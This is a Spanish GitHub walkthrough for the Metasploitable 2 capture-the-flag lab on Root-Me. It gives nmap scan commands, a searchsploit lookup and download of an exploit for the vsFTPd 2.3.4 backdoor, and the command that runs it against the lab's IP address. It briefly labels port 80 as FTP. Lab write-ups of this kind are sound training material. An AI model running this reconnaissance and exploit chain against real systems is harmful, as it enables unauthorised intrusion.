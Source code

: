 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F70000&width=500&height=70&lines=Metasploitable_2"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/metasploitable-2,29/

Sourceforge: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/

**[Online]:**

Root-Me: https://www.root-me.org/fr/Capture-The-Flag/CTF-all-the-day/Metasploitable-2-13?lang=en

<h1 align="center"></h1>

</br>

- *Paso 1:* Escanear todos los puertos que están abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv ctf04.root-me.org
```
![1](https://user-images.githubusercontent.com/75953873/172515652-41a49316-c195-462f-a88b-bfba74051bf2.png)

Puertos abiertos: [21,22,23,25,53,80,110,139,445,3306,5900]

- *Paso 2:* Detección de servicios y su respectiva versión. 
```
nmap -p 21,22,23,25,53,80,110,139,445,3306,5900 -sV ctf04.root-me.org
```
![2](https://user-images.githubusercontent.com/75953873/172518304-45323ab6-0e48-425d-9bf4-5e3689b86200.png)

Objetivo: Puerto 80 -> Servicio FTP -> Versión -> vsFTPd 2.3.4

- *Paso 3:* Identificación de exploit y descarga. 
```
searchsploit vsFTPd 2.3.4
```
![3](https://user-images.githubusercontent.com/75953873/172518879-12b95d54-5dac-4f0d-918e-96860c1c5eed.png)

`Dato:` cada exploit está enumerado y es irrepetible.

Exploit: 49757

Descargar exploit:
```
searchsploit -m 49757
```
![4](https://user-images.githubusercontent.com/75953873/172519207-132d9579-e008-4980-941a-44925d69d383.png)

- *Paso 5:* Obtener acceso. 

Obtener IP de la máquina a través de un ping:
```
ping -c 2 ctf04.root-me.org
```
![5](https://user-images.githubusercontent.com/75953873/172519517-52e00c2d-277e-43d7-838e-796e99e2ed34.png)

IP: 212.129.29.186

Ejecución del exploit:
```
python3 49757.py 212.129.29.186
```
